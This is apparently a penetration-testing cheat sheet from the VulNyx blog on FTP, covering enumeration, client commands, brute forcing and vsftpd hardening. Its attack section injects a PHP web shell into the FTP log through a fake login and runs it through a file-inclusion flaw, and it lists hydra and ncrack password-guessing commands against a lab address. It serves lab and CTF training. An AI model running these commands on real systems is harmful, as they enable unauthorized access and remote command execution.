 ```yaml
---
title: 🟢 21 FTP (TCP)
date: 0021-01-01
layout: post
---
```


### Basic Infomation

[**File Transfer Protocol (FTP)**](https://en.wikipedia.org/wiki/File_Transfer_Protocol) is a standard network protocol used to transfer files from one host to another over a TCP-based network, such as the internet.  

Default Port: `21`  
```bash
PORT   STATE SERVICE
21/tcp open  ftp
```
 
When [Nmap](https://nmap.org) does not get the service header, it uses the [IANA](https://www.iana.org/assignments/service-names-port-numbers/service-names-port-numbers.xhtml) db to determine the name of the service associated with that port.

---

### Enumeration

#### Active

```bash
nc -vn 192.168.1.2 21
timeout 0.1 bash -c "nc -nv 192.168.1.2 21"
nmap -p21 -sS 192.168.1.2
nmap -p21 -sVC 192.168.1.2
nmap -p21 --script="ftp-anon" 192.168.1.2
nmap -p21 --script="ftp-*" 192.168.1.2
```

#### Pasive

##### [Shodan](https://shodan.io)

```bash
port:21
port:21 vsftpd
port:21 proftpd 1.3.5
port:21 os:"Linux"
port:21 os:"Windows"
port:21 country:"US"
port:21 country:"US" os:"Linux"
port:21 hostname:"ftp.domain.tld"
```

---

### Usage & Commands

```bash
# upload file
put cmd.php
# upload all files
mput *
# download
get config.php
# download all files
prompt off
mget *
# binary mode enable
binary
# exit
bye
# rename file
ftp> rename cmd.php
(to-name) cmd.php5
# read files from ftp
ftp> less .htaccess
ftp> more .htaccess
```

#### Connect

```bash
# default port (21)
ftp peter@192.168.1.2
ftp anonymous@192.168.1.2
ncftp -u peter -p 'Passw0rd' 192.168.1.2
lftp -u anonymous, 192.168.1.2
lftp -u peter,'Passw0rd' 192.168.1.2

# ftps (error: Fatal error: Certificate verification: Not trusted)
lftp :~> set ssl:verify-certificate false

# other port
lftp -u peter,'Passw0rd' 192.168.1.2 -p 1234
ncftp -u peter -p 'Passw0rd' -P 1234 192.168.1.2
```

---

### Remote Code Execution (RCE)

#### Log Poisoning

If it detects a **Local File Inclusion (LFI)** and manages to read the `/etc/passwd` file.  

> ##### WARNING
> You should also verify that **port 21 (FTP)** is in the **open** state.
{: .block-warning }

```bash
file.php?file=/etc/passwd
```

If we can read the **FTP log file** located at `/var/log/vsftpd.log`.

```bash
file.php?file=/var/log/vsftpd.log
```

An attacker can poison that log file by **injecting PHP code** into a fake login.

```bash
lftp -u '<?php system($_GET["cmd"]); ?>', 192.168.1.2
```

We now have **Remote Command Execution (RCE)** on the destination server.

```bash
file.php?file=/var/log/vsftpd.log&cmd=id
```

---

### Brute Force

#### Password

If you got a `username` and need the `password` this is the way.

```bash
# default port (21)
ncrack --user peter -P rockyou.txt ftp://192.168.1.2 -f
hydra -t 64 -l peter -P rockyou.txt ftp://192.168.1.2 -f -I     # ftp
hydra -t 64 -l peter -P rockyou.txt ftps://192.168.1.2 -f -I    # ftps
# other port
ncrack --user peter -P rockyou.txt ftp://192.168.1.2:1234 -f
hydra -t 64 -l peter -P rockyou.txt ftp://192.168.1.2:1234 -f -I
```

#### Username

If you have a `password` and need the `username` this is the way.

```bash
# default port (21)
ncrack -U users.dic --pass Passw0rd ftp://192.168.1.2 -f
hydra -t 64 -L /opt/techyou.txt -p Passw0rd ftp://192.168.1.2 -f -I
# other port
ncrack -U users.dic --pass Passw0rd ftp://192.168.1.2:1234 -f
hydra -t 64 -L users.dic -p Passw0rd ftp://192.168.1.2:1234 -f -I
```

---

### Hardening & Configuration

#### Interesting Files

- `/srv/ftp` - Default **path**.
- `/var/log/vsftpd.log` - This file is for **logs**.
- `/etc/vsftpd.conf` - This file is for **configuration**.

#### Install

```bash
# client
apt install -y ftp
apt install -y lftp
# server
apt install -y vsftpd
```

#### Change Port

```bash
# default port
listen_port=21
# other port
listen_port=1234
```

#### User (Guest)

```bash
# enable
anonymous_enable=YES
# disable
anonymous_enable=NO
```

#### Banner Grabbing (Disable)

```bash
# show version
#ftpd_banner=Welcome to blah FTP service.
21/tcp open  ftp     vsftpd 3.0.3
# hidden version
ftpd_banner=Welcome to blah FTP service.
21/tcp open  ftp     vsftpd
```

#### Daemon (Listener)

```bash
# external (0.0.0.0)
listen_address=0.0.0.0
listen_port=21
listen=YES
# internal (localhost)
listen_address=127.0.0.1
listen_port=21
listen=YES
```

#### Service

```bash
service vsftpd start
service vsftpd stop
service vsftpd restart
service vsftpd status

/etc/init.d/vsftpd start
/etc/init.d/vsftpd stop
/etc/init.d/vsftpd restart
/etc/init.d/vsftpd status

systemctl start vsftpd
systemctl stop vsftpd
systemctl restart vsftpd
systemctl status vsftpd
```

---

#### Disclaimer

> ##### WARNING
> All techniques present in this blog are for educational, ethical or CTFs play solving purposes.  
> The [**VulNyx**](https://vulnyx.com) team is not responsible for any misuse or damage caused to third-party systems or infrastructure.
{: .block-warning }

<br><br>
<div style="display: flex; justify-content: center; align-items: center; width: 100%; margin-top: 20px;">
  <img src="/assets/gitbook/images/favicon.png" style="width: 30px; height: auto; margin-right: 6px;">
  <span>© VulNyx 2023-2025</span>
</div>
